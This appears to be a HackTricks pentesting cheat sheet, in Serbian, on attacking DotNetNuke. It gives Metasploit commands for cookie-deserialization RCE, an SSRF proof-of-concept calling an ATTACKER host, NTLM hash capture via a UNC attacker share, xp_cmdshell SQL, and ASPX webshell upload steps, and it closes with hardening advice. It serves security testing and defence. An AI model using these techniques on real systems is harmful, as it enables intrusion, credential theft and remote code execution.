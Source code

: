 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Ako se prijavite kao **administrator** u DNN, lako je dobiti **RCE**, međutim, u poslednjih nekoliko godina objavljeno je nekoliko *neautentifikovanih* i *post-auth* tehnika. Ova cheat-sheet sakuplja najkorisnije primitivne tehnike za ofanzivni i defanzivni rad.

---
## Verzija i Okruženje

* Proverite *X-DNN* HTTP odgovorni header – obično otkriva tačnu verziju platforme.
* Čarobnjak za instalaciju otkriva verziju u `/Install/Install.aspx?mode=install` (pristup na veoma starim instalacijama).
* `/API/PersonaBar/GetStatus` (9.x) vraća JSON blob koji sadrži `"dnnVersion"` za korisnike sa niskim privilegijama.
* Tipični kolačići koje ćete videti na aktivnoj instanci:
* `.DOTNETNUKE` – ASP.NET forms authentication ticket.
* `DNNPersonalization` – sadrži XML/serijalizovane podatke o korisničkom profilu (stare verzije – vidi RCE ispod).

---
## Neautentifikovana Eksploatacija

### 1. Deserializacija Kolačića RCE  (CVE-2017-9822 & follow-ups)
*Zahvaćene verzije ≤ 9.3.0-RC*

`DNNPersonalization` se deserializuje pri svakoj zahtev kada je ugrađeni 404 handler omogućen. Tako kreirani XML može dovesti do proizvoljnih gadget lanaca i izvršavanja koda.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Modul automatski bira pravi put za zakrpljene, ali još uvek ranjive verzije (CVE-2018-15811/15812/18325/18326). Eksploatacija funkcioniše **bez autentifikacije** na 7.x–9.1.x i sa *verifikovanim* nalozima sa niskim privilegijama na 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Pogođene verzije < 9.13.8  –  Zakrpa objavljena aprila 2025*

Zaobilaženje starijeg `DnnImageHandler` rešenja omogućava napadaču da primora server da izda **arbitrarne GET zahteve** (polu-slepi SSRF). Praktični uticaji:

* Interni port skeniranje / otkrivanje metapodataka u cloud implementacijama.
* Dostupnost hostova koji su inače zaštićeni od Interneta.

Dokaz koncepta (zameni `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
Zahtev se pokreće u pozadini; pratite svog slušatelja za povratne pozive.

### 3. Izloženost NTLM heša putem UNC preusmeravanja  (CVE-2025-52488)
*Zahvaćene verzije 6.0.0 – 9.x (< 10.0.1)*

Specijalno oblikovan sadržaj može naterati DNN da pokuša da preuzme resurs koristeći **UNC put** kao što je `\\attacker\share\img.png`. Windows će rado izvršiti NTLM pregovaranje, otkrivajući heševe server-računa napadaču. Ažurirajte na **10.0.1** ili onemogućite odlazni SMB na vatrozidu.

### 4. Zaobilaženje IP filtera  (CVE-2025-52487)
Ako administratori oslanjaju na *Host/IP filtere* za zaštitu administrativnog portala, imajte na umu da se verzije pre **10.0.1** mogu zaobići manipulacijom `X-Forwarded-For` u scenariju obrnute proxy.

---
## Post-autentifikacija do RCE

### Putem SQL konzole
Pod **`Settings → SQL`** ugrađeni prozor za upite omogućava izvršavanje protiv baze podataka sajta. Na Microsoft SQL Server-u možete omogućiti **`xp_cmdshell`** i pokrenuti komande:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Putem ASPX webshell upload
1. Idite na **`Settings → Security → More → More Security Settings`**.
2. Dodajte `aspx` (ili `asp`) u **Allowable File Extensions** i **Save**.
3. Idite na **`/admin/file-management`** i otpremite `shell.aspx`.
4. Aktivirajte ga na **`/Portals/0/shell.aspx`**.

---
## Eskalacija privilegija na Windows-u
Kada se postigne izvršenje koda kao **IIS AppPool\<Site>**, primenjuju se uobičajene tehnike eskalacije privilegija na Windows-u. Ako je sistem ranjiv, možete iskoristiti:

* **PrintSpoofer** / **SpoolFool** za zloupotrebu *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** za bekstvo iz *Service Accounts*.

---
## Preporuke za jačanje (Plavi tim)

* **Ažurirajte** na najmanje **9.13.9** (popravlja SSRF zaobilaženje) ili po mogućstvu **10.0.1** (IP filter i NTLM problemi).
* Uklonite preostale **`InstallWizard.aspx*`** datoteke nakon instalacije.
* Onemogućite odlazni SMB (portovi 445/139) izlaz.
* Sprovodite jake *Host Filters* na ivici proksija umesto unutar DNN.
* Blokirajte pristup `/API/RemoteContentProxy` ako se ne koristi.

## Reference

* Metasploit `dnn_cookie_deserialization_rce` modul dokumentacija – praktični detalji o neautentifikovanom RCE (GitHub).
* GitHub Security Advisory GHSA-3f7v-qx94-666m – informacije o SSRF zaobilaženju i zakrpi za 2025. godinu.
{{#include ../../banners/hacktricks-training.md}}
